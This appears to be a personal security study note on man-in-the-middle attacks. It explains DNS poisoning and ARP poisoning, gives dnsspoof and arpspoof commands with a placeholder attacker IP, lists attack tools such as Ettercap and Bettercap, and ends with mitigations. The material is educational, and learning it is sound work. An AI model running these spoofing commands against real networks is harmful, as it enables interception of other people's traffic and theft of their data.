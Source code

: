 ```yaml
---
{"dg-publish":true,"permalink":"/mitm-attack/","hide":"true"}
---
```


- Man in the middle
- Attacker site between the target and the server
- Can change the info
- Sniffing can be used
- Relatively simple to carry out if the two parties do **not confirm the authenticity and integrity** of each message.
- Affect **cleartext protocols**

![Pasted image 20230908214558.png](/img/user/attachments/Pasted%20image%2020230908214558.png)

- Set [[Keylogger\|Keylogger]]
- Get browser info
- Screenshots
- Delete certs
- [[backdoor\|Backdoor]]
# DNS poisoning
Create a file to emulate DNS record
```shell
echo "ATTAQUER_IP *.sportsfoo.com" > dns
```

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">




```shell
dnsspoof -i eth1 -f dns
```

</div></div>


# ARP poisoning
```shell
echo 1 > /proc/sys/net/ipv4/ip forward
```

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- [[MITM attack\|MITM attack]]

| Option                                                                   | Description                                                                   |
| ------------------------------------------------------------------------ | ----------------------------------------------------------------------------- |
| `arpspoof -i interface -t IP1 IP2`<br>`arpspoof -i interface -t IP2 IP1` | IP1 is the address of the access point or gateway<br>IP2 is the target system |


</div></div>


## Cain & Abel
- Scan MAC adress
- New ARP Poison Routing
- It can be used to monitoring the traffic between two systems and detect this type of attacks
## Tools
- [Ettercap](https://www.ettercap-project.org)
- [Bettercap](https://www.bettercap.org)
# Mitigation
- Proper authentication along with encryption or signing of the exchanged messages.
- With the help of [[PKI\|PKI]] and trusted root certificates, [[TLS\|TLS]] protects from [[MITM attack\|MITM attack]] .
- Set static arp tables
